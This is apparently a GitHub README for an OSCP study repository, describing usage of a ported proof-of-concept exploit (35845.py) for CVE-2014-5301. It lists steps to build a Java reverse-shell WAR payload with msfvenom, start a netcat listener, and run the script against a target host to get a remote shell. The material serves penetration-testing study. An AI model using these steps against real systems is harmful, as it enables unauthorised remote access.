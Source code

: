 # OSCP
This is a repository which contains custom/ported POC exploits. They have been made for study and learning purposes.

## 35845.py

CVE: 2014-5301

OSVDB: 116733

URL: [http://seclists.org/fulldisclosure/2015/Jan/5](http://seclists.org/fulldisclosure/2015/Jan/5)

Original metasploit module: url

### Usage
```
35845.py file.war host port
```

1.First create reverse shell payload
```
msfvenom -p java/shell_reverse_tcp LHOST=<ip address> LPORT=4444 -f war > shell.war
```

2.Start netcat listener 

3.Run the script
```
35845.py shell.war 192.168.1.1 8080
```
**Note:** The exploit may require multiple run to get it working. Don't give up!
